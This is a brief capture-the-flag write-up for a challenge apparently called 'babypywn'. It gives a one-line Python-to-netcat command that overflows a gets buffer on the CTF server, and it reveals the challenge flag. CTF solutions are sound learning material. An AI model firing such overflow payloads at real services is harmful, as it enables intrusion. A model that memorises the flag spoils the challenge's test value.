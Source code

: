 #### Challenge:

Python is memory safe, right? [babypywn.py](./babypywn.py ":ignore")

`nc 2022.ductf.dev 30021`

---

#### Solution:

Classic `gets` overflow:

```bash
python -c 'import pwn;  print("A"*512 + "DUCTF")' | nc 2022.ductf.dev 30021
```

---

<details><summary>FLAG:</summary>

```
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

</details>
<br/>
